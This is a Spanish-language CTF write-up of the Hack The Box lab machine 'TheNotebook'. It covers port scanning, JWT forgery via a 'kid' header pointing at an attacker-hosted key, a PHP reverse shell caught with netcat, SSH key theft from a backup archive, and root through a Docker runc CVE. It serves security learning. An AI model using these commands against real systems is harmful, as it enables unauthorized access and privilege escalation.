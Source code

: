 ```yaml
---
layout: post
title:  "⚠HTB⚠ TheNotebook"
date:   2021-07-31 9:20:00 +0200
last_modified_at: 2021-07-31 09:20:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Writeup, Docker, JWT]
categories: Hackthebox
---
```



{: .message}

Es una máquina que realmente me gusto por la forma de intrusión y la escalada.

## Enumeración
### Nmap 

*Puertos:*
* 22 /tcp -> OpenSSH 7.6p1
* 80 /tcp -> nginx 1.14.0

```bash
nmap -p- --open -T5 -v 10.10.10.230 -oG Allport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:10 EDT
Initiating Ping Scan at 21:10
Scanning 10.10.10.230 [2 ports]
Completed Ping Scan at 21:10, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:10
Completed Parallel DNS resolution of 1 host. at 21:10, 0.01s elapsed
Initiating Connect Scan at 21:10
Scanning 10.10.10.230 [65535 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230
Connect Scan Timing: About 43.74% done; ETC: 21:11 (0:00:40 remaining)
Completed Connect Scan at 21:11, 97.59s elapsed (65535 total ports)
Nmap scan report for 10.10.10.230
Host is up (0.082s latency).
Not shown: 47011 filtered ports, 18522 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 97.78 seconds
```
Este escaneo como siempre digo es el importante ya que nos trae versiones de los servicios:
```bash
nmap -sC -sV -p22,80 10.10.10.230 -oN ScanPort1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:22 EDT
Nmap scan report for 10.10.10.230
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```
Siempre me gusta tirar de esta utilidad para saber a qué me enfrento:

```bash
whatweb 10.10.10.230
http://10.10.10.230 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.10.230], Title[The Notebook - Your Note Keeper], nginx[1.14.0]
```

### Fuzz

Mediante wfuzz pude sacar esto: 
* -> http://10.10.10.230/bd7077f7-3d3a-43c0-a0e0-20047e819f35/notes
* -> http://10.10.10.230/admin/
	* upload
	* notes


En el cookie editor encontre lo que es una jwt que cuando se pasa por [esto](https://jwt.io/) y te muestra todo lo que necesitas para trabajar

## JWT Token bypass
Para llevar a cabo este bypass me lei este [blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
```sql
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in privKey.key
Your public key has been saved in privKey.key.pub
The key fingerprint is:
SHA256:6hjan3Jm1H2FExEj0WOvCy6tw6XmNc9AzYVHmp66Ny8 benji@parrot
The key's randomart image is:
+---[RSA 4096]----+
|          oo+o.  |
|           .=*   |
|           .+=o  |
|           +o+o  |
|       .S.. =+   |
|      ....+.o    |
|    .... ==o .   |
|   o.++.*.o*E    |
|  . o*+oo+..o+.  |
+----[SHA256]-----+

python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...

┌─[benj@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.209:7070/privKey.key"}' |base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMDk6NzA3
MC9wcml2S2V5LmtleSJ9Cg==
┌─[benji@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"username":"benji","email":"benji@htb.local","admin_cap":true}' |base64
eyJ1c2VybmFtZSI6ImJlbmppIiwiZW1haWwiOiJiZW5qaUBodGIubG9jYWwiLCJhZG1pbl9jYXAi
OnRydWV9Cg==
```

Primero se copia los dos base64 que se obtuvieron de la codificacion de las cadenas de texto. (Teniendo en cuenta que tengo un servidor en el puerto 7070)

![](/images_blog/img_thenotebook/Pastedimage20210422141532.png)

![Pastedimage20210422141532](https://user-images.githubusercontent.com/76759292/127757368-0953690d-dca7-4a53-95e4-ca1a1caea03f.png)

### Firma del token 

Para hacerlo tienes que copiar  la clave publica y la privada en https://jwt.io/.

## Reverse PHP

Aqui tengo acceso a subir un archivo php y entonces aprovechando esto, subiendo el clasico php

![](/images_blog/img_thenotebook/Pastedimage20210422142431.png)
![Pastedimage20210422142431](https://user-images.githubusercontent.com/76759292/127757445-cabf92e0-48fd-475b-833f-d69f2afa637a.png)


```bash
rlwrap nc -lnvp 4444           
listening on [any] 4444 ...
connect to [10.10.14.209] from (UNKNOWN) [10.10.10.230] 59978
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@thenotebook:/$ 
```

Primero es que nos encontramos como el usuario www-data tenemos que volvernos el usuario noah, en la ruta de backup nos encontramos con uno del diretorio completo de noah, este backup contiene una clave id_rsa del usuario noah:

```bash
/var/backups$ ls -la
total 64
drwxr-xr-x  2 root root  4096 Jul 31 16:03 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33585 Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root  3618 Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.2.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

```bash
ls
authorized_keys  id_rsa  id_rsa.pub
```

Teniendo esto entramos por ssh:
```bash
noah@thenotebook:~$ ls
user.txt  webapp-dev01.sh
noah@thenotebook:~$ cat user.txt 
56013079b3c02c282d699ba6faec07c6
```
## PrivEsc
Para el privesc nos encontramos un contenedor que se encuentra desactualizado con una version *Docker version 18.06.0-ce* cabe destacar que docker va por la version 20.10:
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
sudo /usr/bin/docker exec -it webapp-dev01 bash
root@b778c5e32326:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@b778c5e32326:/opt/webapp# 

docker --version
Docker version 18.06.0-ce, build 0ffa825
```
Aqui les dejo este [CVE](https://github.com/Frichetten/CVE-2019-5736-PoC):

![](/images_blog/img_thenotebook/Pastedimage20210731171252.png)
![Pastedimage20210731171252](https://user-images.githubusercontent.com/76759292/127757457-ae1380af-2ede-4b74-a348-9a65d799c412.png)


La idea es que podemos ejecutar cualquier comando como root entonces sabiendo esto le dare permiso a la bash para cuando haga un bash -p me de una bash como root:

```bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
![](/images_blog/img_thenotebook/Pastedimage20210731171606.png)
![Pastedimage20210731171606](https://user-images.githubusercontent.com/76759292/127757460-f66c999b-0eae-44c0-9150-cf0acbe8a097.png)


![](/images_blog/img_thenotebook/Pastedimage20210731171815.png)

![Pastedimage20210731171815](https://user-images.githubusercontent.com/76759292/127757461-a85dc410-c881-4325-82fc-59a60ffe4a8f.png)

Aqui vemos como tenemos acceso a la flag:
```bash
bash-4.4# ls
cleanup.sh  docker-runc  reset.sh  root.txt  start.sh
bash-4.4# cat root.txt 
9bba1908ac228fb0088747ddee6ab9b9
bash-4.4# 
```
MACHINE PWNED!!!!!

